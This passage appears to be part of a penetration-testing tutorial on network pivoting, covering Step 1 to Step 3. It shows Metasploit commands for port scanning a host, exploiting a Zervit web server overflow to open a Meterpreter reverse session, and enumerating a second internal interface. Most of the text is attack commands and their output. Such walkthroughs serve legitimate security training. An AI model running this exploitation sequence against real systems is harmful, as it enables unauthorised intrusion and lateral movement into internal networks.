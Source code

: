 ## Advanced Pivoting Scenario

### Complete Pivoting Workflow

#### Step 1: Initial Compromise and Service Identification

```bash
# Initial port scan reveals web service
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.50
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 80,443,8080
msf6 auxiliary(scanner/portscan/tcp) > run

[*] 192.168.1.50:80 - TCP OPEN
[*] Scanned 1 of 1 hosts (100% complete)
```

#### Step 2: Web Application Enumeration

```bash
# Check web application
msf6 > curl http://192.168.1.50

# Identify vulnerable application (example: Zervit 0.4)
msf6 > search zervit
msf6 > use exploit/windows/http/zervit_overflow
msf6 exploit(windows/http/zervit_overflow) > set RHOSTS 192.168.1.50
msf6 exploit(windows/http/zervit_overflow) > set TARGETURI /
msf6 exploit(windows/http/zervit_overflow) > exploit

[*] Sending stage (175174 bytes) to 192.168.1.50
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.50:49162)
```

#### Step 3: Post-Exploitation Network Discovery

```bash
meterpreter > sysinfo
Computer        : VICTIM-PC
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

meterpreter > shell
C:\>ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:
   Connection-specific DNS Suffix  . : localdomain
   IPv4 Address. . . . . . . . . . . : 192.168.1.50
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1

Ethernet adapter Ethernet1:
   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.10.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
```
